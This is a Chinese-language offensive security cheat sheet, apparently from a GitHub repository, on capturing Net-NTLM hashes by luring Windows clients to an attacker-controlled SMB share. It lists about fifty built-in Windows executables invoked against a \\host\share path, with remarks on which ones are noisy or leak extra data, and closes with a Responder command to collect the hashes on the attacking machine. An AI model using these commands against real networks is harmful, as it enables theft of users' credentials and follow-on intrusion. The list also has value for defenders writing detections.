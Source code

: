 ### 0x02 通过 SMB 服务获取 Net-NTLM hash   
对于 SMB 协议，客户端在连接服务端时，默认先使用本机的用户名和密码 hash 尝试登录，所以可以模拟 SMB 服务器从而截获 hash，执行如下命令都可以得到 hash

```bash
net.exe use \\host\share
attrib.exe \\host\share
bcdboot.exe \\host\share
bdeunlock.exe \\host\share
cacls.exe \\host\share
certreq.exe \\host\share #(noisy, pops an error dialog)
certutil.exe \\host\share
cipher.exe \\host\share
ClipUp.exe -l \\host\share
cmdl32.exe \\host\share
cmstp.exe /s \\host\share
colorcpl.exe \\host\share #(noisy, pops an error dialog)
comp.exe /N=0 \\host\share \\host\share
compact.exe \\host\share
control.exe \\host\share
convertvhd.exe -source \\host\share -destination \\host\share
Defrag.exe \\host\share
DeployUtil.exe /install \\host\share
DevToolsLauncher.exe GetFileListing \\host\share #(this one's cool. will return a file listing (json-formatted) from remote SMB share...)
diskperf.exe \\host\share
dispdiag.exe -out \\host\share
doskey.exe /MACROFILE=\\host\share
esentutl.exe /k \\host\share
expand.exe \\host\share
extrac32.exe \\host\share
FileHistory.exe \\host\share #(noisy, pops a gui)
findstr.exe * \\host\share
fontview.exe \\host\share #(noisy, pops an error dialog)
fvenotify.exe \\host\share #(noisy, pops an access denied error)
FXSCOVER.exe \\host\share #(noisy, pops GUI)
hwrcomp.exe -check \\host\share
hwrreg.exe \\host\share
icacls.exe \\host\share
LaunchWinApp.exe \\host\share #(noisy, will pop an explorer window with the  contents of your SMB share.)
licensingdiag.exe -cab \\host\share
lodctr.exe \\host\share
lpksetup.exe /p \\host\share /s
makecab.exe \\host\share
MdmDiagnosticsTool.exe -out \\host\share #(sends hash, and as a *bonus!* writes an MDMDiagReport.html to the attacker share with full CSP configuration.)
mshta.exe \\host\share #(noisy, pops an HTA window)
msiexec.exe /update \\host\share /quiet
msinfo32.exe \\host\share #(noisy, pops a "cannot open" dialog)
mspaint.exe \\host\share #(noisy, invalid path to png error)
mspaint.exe \\host\share\share.png #(will capture hash, and display the remote PNG file to the user)
msra.exe /openfile \\host\share #(noisy, error)
mstsc.exe \\host\share #(noisy, error)
netcfg.exe -l \\host\share -c p -i foo
```
* 攻击机配置开启 SMB 后执行：$ sudo python Responder.py -I eth0 -v